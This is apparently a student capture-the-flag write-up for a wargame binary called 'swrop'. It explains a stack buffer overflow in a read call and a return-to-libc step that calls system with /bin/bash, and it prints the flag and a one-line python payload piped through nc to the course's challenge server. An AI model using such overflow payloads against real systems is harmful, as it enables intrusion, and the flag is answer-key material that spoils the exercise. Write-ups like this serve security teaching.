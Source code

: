 nx-3 | swrop
===========================

Flag: `6447{1feda6d2-8033-4c40-86cb-f46c2ad98888}`

General overview of problems faced
-------------------------------------
I was using wrong address to point to bin/bash

List of vulnerabilities
--------------------
1. The program uses a `read` function call and allows up to 256 bytes to be written but the buffer being written to is less than 256 therefore the buffer can be overflown. We can use ret to libc to get a shell

Steps to exploit
------------------
1. Send 140 bytes of padding + address to `call system` in little endian format ("\x90\x83\x04\x08") + a fake return address + the address to bin/bash ("\x00\x86\x04\x08")


Script/Command used
------------------
```bash
(python -c 'print "A"*140 + "\x90\x83\x04\x08" + "BBBB" + "\x00\x86\x04\x08"'; cat - ) | nc wargames.6447.sec.edu.au 8003
```

